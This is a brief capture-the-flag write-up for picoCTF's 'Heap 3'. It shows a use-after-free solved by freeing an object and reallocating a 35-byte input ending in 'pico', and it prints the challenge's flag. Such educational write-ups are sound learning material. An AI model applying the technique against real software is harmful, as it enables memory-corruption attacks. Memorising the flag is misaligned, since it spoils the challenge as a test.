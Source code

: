 # Heap 3 #
This is a write-up for [heap 3](https://play.picoctf.org/practice/challange/440).  
`Heap 3` rated medium
The given files are at the `file` directory.  

## The Challenge ##
> This program mishandles memory. Can you exploit it to get the flag?  
> Download the binary [here](./files/binary).  
> Download the source [here](./files/source.c).  
> Connect with the challenge instance here:  
> nc tethys.picoctf.net \<port\>

## How I Solve ## 
To solve this I needed to change the `x->flag` from `bico` to `pico`.  
The way to do this is by freeing the `x` variable and allocate a new object in the same place (if we lucky).  
Lets try it.


Step 1: deleting `x`
```console
freed but still in use
now memory untracked
do you smell the bug?

1. Print Heap
2. Allocate object
3. Print x->flag
4. Check for win
5. Free x
6. Exit

Enter your choice: 5
```
Step 2: declare a new variable on the same place with 35 chars when the last 5 chars are 'pico\0'
```
1. Print Heap
2. Allocate object
3. Print x->flag
4. Check for win
5. Free x
6. Exit

Enter your choice: 2
Size of object allocation: 35
Data for flag: 123456789012345678901234567890pico
```

Step 3: try the `win` function
```
1. Print Heap
2. Allocate object
3. Print x->flag
4. Check for win
5. Free x
6. Exit

Enter your choice: 4
YOU WIN!!11!!
picoCTF{now_thats_free_real_estate_a11cf359}
```

We did it! We got that the flag is `picoCTF{now_thats_free_real_estate_a11cf359}`
